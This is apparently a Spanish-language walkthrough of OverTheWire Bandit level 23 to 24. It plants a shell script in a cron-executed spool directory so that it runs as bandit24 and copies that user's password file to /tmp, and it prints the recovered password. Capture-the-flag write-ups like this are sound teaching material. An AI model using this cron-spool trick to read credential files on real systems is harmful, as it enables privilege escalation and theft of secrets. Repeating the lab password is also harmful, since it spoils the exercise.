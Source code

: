 ## Level Goal

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)

# Solution
Primero vemos que es lo que esta haciendo la tarea cron:
```sh
bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ ls -l
total 24
-rw-r--r-- 1 root root 120 Jul 17 15:57 cronjob_bandit22
-rw-r--r-- 1 root root 122 Jul 17 15:57 cronjob_bandit23
-rw-r--r-- 1 root root 120 Jul 17 15:57 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8 14:38 e2scrub_all
-rwx------ 1 root root  52 Jul 17 15:59 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
## LEEMOS TAREA CRON
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

## LEEMOS EL SCRIPT QUE EJECUTA CADA MINUTO
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Este script ejecuta todos los scripts creados por bandit23 (propietario:bandit23) si este script tiene permisos de ejecución para otros (ojo). Da un tiempo de ejecución entre 9 a 60 segundos para evitar problemas de loops infinitos o errores y borra el archivo.

#### Pregunta: Si lo ejecuta bandit24, tendre acceso a bandit24
Ejemplo práctico con **whoami**:
Si creamos un script que nos diga el usuario
```sh
#!/bin/bash

echo "$(whoami)">/tmp/tmp.O0Y51DcGYw/file_name
chmod o+r /tmp/tmp.O0Y51DcGYw/file_name
```
El resultado es tener un archivo que sea:
```sh
# COPIAMOS EL SCRIPT AL DIRECTORIO QUE EJECUTA LOS SCRIPTS
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cp script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ watch -n 1 ls -l
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cat file_name
bandit24
```
Con el siguiente script nos copiaremos la password de bandit27:
```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24>/tmp/tmp.O0Y51DcGYw/pass_24.log
chmod o+r /tmp/tmp.O0Y51DcGYw/pass_24.log
```
Y el resultado es:
```sh
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cp script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ watch -n 1 ls -l
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cat pass_24.log 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

# Password next level:

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## Next level:
[[Level 24 -> 25]]